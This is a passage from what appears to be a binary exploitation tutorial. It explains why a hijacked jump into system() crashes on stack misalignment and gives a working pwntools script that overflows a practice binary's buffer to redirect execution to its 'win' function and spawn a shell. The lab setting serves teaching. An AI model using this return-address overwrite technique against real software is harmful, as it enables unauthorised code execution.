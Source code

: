 ```gdb
Program received signal SIGSEGV, Segmentation fault.
0x00007fb0c3654f9b in do_system (line=0x402022 "/bin/sh") at ../sysdeps/posix/system.c:148

# ... snip ...

──────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7fb0c3654f88 <do_system+0158> lea    rsi, [rip+0x16b48c]        # 0x7fb0c37c041b
   0x7fb0c3654f8f <do_system+015f> mov    QWORD PTR [rsp+0x70], 0x0
   0x7fb0c3654f98 <do_system+0168> mov    r9, QWORD PTR [rax]
 → 0x7fb0c3654f9b <do_system+016b> movaps XMMWORD PTR [rsp+0x50], xmm0
   0x7fb0c3654fa0 <do_system+0170> call   0x7fb0c370e360 <__GI___posix_spawn>
   0x7fb0c3654fa5 <do_system+0175> mov    rdi, rbx
   0x7fb0c3654fa8 <do_system+0178> mov    r12d, eax
   0x7fb0c3654fab <do_system+017b> call   0x7fb0c370e800 <__posix_spawnattr_destroy>
   0x7fb0c3654fb0 <do_system+0180> test   r12d, r12d
```

This hearkens back to our discussion of `x86_64` calling conventions. One of the calling convention specifications we did not cover is that `sp` must be 16-byte aligned (must end in a `0`, not an `8`) at the point of a `call` instruction and after the prologue of a function. 

From the [Microsoft documentation](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170):

> The stack pointer must remain 16-byte aligned in any region of code that isn't part of an epilog or prolog, except within leaf functions.

During normal operation, the `call` instruction pushes the **return instruction pointer** (the return address WHICH WE CORRUPTED) and the prologue pushes the return base pointer, which results in the stack remaining 16-byte aligned. However, when we corrupt `rip` to perform a "call," it actually acts like a jump—there is no `call` instruction used, we simply jump execution to the start of a new function. This does not push the return instruction pointer, but the prologue after the jump still pushes the return base pointer. The result is a `sp` that is eight-byte aligned which violates the calling convention requirement. This yields an error when using an `xmm` instruction—albeit much later in glibc—which expects the stack to be 16-byte aligned. This [Stack Overflow Post](https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul) (very apropos, given our lesson on stack overflows!) explains more.

There is an easy option to circumvent this error. We cannot push the return instruction pointer but we can simply skip over the `endbr64; push rbp` instructions in the prologue by jumping a few instructions after the function's entry. We don't care about returning from the function in this example, so maintaining a "valid" stack is not important to our goal. Our modified script is below, using `pwntools`'s `asm` functionality to calculate the exact length of those instructions to add to the function's entry address:

```python
from pwn import *

context.terminal = ["tmux", "splitw", "-f", "-h"]
context.arch = "amd64"

e = ELF("./stack")
p = gdb.debug("./stack", '''
    continue
''')
p.recvuntil(b"??\n")
# calculate length of `push rbp` instruction:
a = asm("endbr64 ; push rbp")
# need to send a newline for gets
p.sendline(b'B' * 0x28 + p64(e.symbols.win + len(a)))
# drop into interactive shell to use shell we popped!
p.interactive()
```
